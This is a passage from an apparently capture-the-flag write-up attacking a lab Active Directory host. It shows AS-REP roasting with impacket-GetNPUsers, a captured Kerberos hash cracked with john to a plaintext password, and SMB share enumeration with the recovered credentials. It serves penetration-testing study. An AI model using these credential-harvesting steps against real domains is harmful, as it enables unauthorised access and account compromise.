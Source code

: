 The first username might need some permutation, so I included some combinations in my username list. We can then use `impacket-GetNPUsers` since we have a username list:

{% code overflow="wrap" %}
```
$ impacket-GetNPUsers -dc-ip LicorDeBellota.htb -usersfile users -outputfile hashes LicorDeBellota.htb/
$ cat hashes    
$krb5asrep$23$Kaorz@LICORDEBELLOTA.HTB:2df046b679a372879de71bc55877ee5a$af8417e1369a1eff28a23fddbb66829fc7ffea53b61ba17e1d016a6f4ed97d98e18cce9b7111a8d78d987d2e1e7b46bfb059f3c8e0006f79647044b6cc5ac9ccc034c4b9df370913173c4abe6343c12bd2cc6e06fe9051f9d7c27354932dc438cdbc853ba6f64597b400071a17a76259d9608229c6143876b520fed634d1c0dfdcda4f67c590e3413dda42c0457f7cc79245297762a556c76f242b2b62f868522ac0df5b8d252389d7c2d7b7522f6e0b3d5b9d60f89bcdfcce838e471f1a454cc95a1260c50ed1fee9e11f24faa0f1203d47f5f0ab6693deeec655fe185c9991e77fa5705a7166bbfca60a886d7346820fc183a5c576359f
```
{% endcode %}

This works! The hash can be easily cracked using `john`.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Roper4155        ($krb5asrep$23$Kaorz@LICORDEBELLOTA.HTB)     
1g 0:00:00:07 DONE (2023-06-20 23:16) 0.1426g/s 1522Kp/s 1522Kc/s 1522KC/s Roryarthur..Ronald8
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We now have credentials!&#x20;

### SMB + Bloodhound

I tried to view the shares, but we don't have access to anything special:

```
$ smbmap -u kaorz -p Roper4155 -H 10.129.228.115  
[+] IP: 10.129.228.115:445      Name: LicorDeBellota.htb                                
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Admin remota
        C$                                                      NO ACCESS       Recurso predeterminado
        IPC$                                                    READ ONLY       IPC remota
        NETLOGON                                                READ ONLY       Recurso compartido del servidor de inicio de sesión 
        SYSVOL                                                  READ ONLY       Recurso compartido del servidor de inicio de sesión
        
```

We can take a look at the shares anyway. The `NETLOGON` share contained a `HelpDesk` file:

